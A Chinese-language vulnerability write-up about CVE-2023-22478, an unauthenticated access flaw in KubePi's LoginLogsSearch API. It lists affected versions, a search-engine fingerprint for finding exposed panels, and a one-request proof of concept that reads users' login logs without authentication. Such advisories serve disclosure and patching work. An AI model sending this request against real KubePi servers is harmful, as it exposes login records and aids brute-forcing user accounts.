




# KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户。

## 漏洞影响

```
KubePi <= v1.6.4
```

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登录页面



补丁中对路由加了身份验证



对应的接口为



验证POC

```
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```




